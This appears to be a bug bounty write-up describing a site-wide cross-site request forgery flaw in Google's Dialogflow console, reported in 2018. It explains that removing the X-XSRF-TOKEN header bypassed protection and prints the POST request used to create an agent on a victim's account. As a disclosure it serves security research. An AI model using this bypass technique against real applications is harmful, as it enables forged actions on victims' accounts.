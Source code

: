 +++
date = '2025-02-01T10:45:23+05:00'
draft = false
title = 'Site-wide CSRF on Google Dialogflow'
+++





## What is Dialogflow ?
```Dialogflow``` (formerly known as API.ai) is a natural language understanding (NLU) platform that enables developers to design and integrate conversational user interfaces into their applications, websites, and devices. It uses machine learning to process and 
understand natural language input, allowing users to interact with systems using everyday language.
Dialogflow is widely used for building chatbots, virtual assistants, and other conversational interfaces. It is particularly popular in customer service, where it can be used to automate responses to common inquiries, freeing up human agents to handle more complex 
issues.

I began searching dialogflow.com for bugs and security issues after Dialogflow was acquired by Google.

## CSRF
>This security flaw is known as Cross-Site Request Forgery, or CSRF for short, enables an attacker to carry out actions on behalf of victim users that can change state in the application like send money or invite members. 

After some testing I discovered CSRF protection mechanism on ```console.dialogflow.com`` can be exploited by deleting the ```X-XSRF-TOKEN``` header from the requests.

I created a new agent on the victim’s behalf using this POST request to show sensitive action on the victim user’s dialogflow account.
 
```
POST /api-client/agents HTTP/1.1
Host: console.dialogflow.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/json;charset=utf-8
Content-Length: 385
Cookie: xxx
Connection: close

{"name":"NewAgent2","description":"","sampleData":null,"language":"en","ownerId":"","primaryKey":"","secondaryKey":"","enableFulfillment":false,"defaultTimezone":"Asia/Almaty","googleAssistant":{},"isPrivate":true,"customClassifierMode":"use.after","mlMinConfidence":0.3,"disableInteractionLogs":false,"useCustomClassifier":true,"intentParamsAutoSync":true,"enableOnePlatformApi":true}
```

After sending this request, a unique ID for your new agent with name ***NewAgent2*** which can be accessed here

```
https://console.dialogflow.com/api-client/#/agent/<ID>/intents
```
I added a new agent to the victim’s account and it demonstrates that the CSRF protection mechanism is bypassed

This issue affected the entire console.dialogflow.com site at the time it was reported, and it could be exploited on all ```console.dialogflow.com``` endpoints.


## Timeline:

- Jan 9, 2018: I reported this CSRF issue to Google's Vulnerability Reward Program
- Jan 9, 2018: Got automated response
- Jan 10, 2018: Google Security Team triaged this issue
- Jan 16, 2018: "Nice catch" response from Google Security Team 
- Jan 25, 2018: Google Security Team decided to issue a reward of $XXX
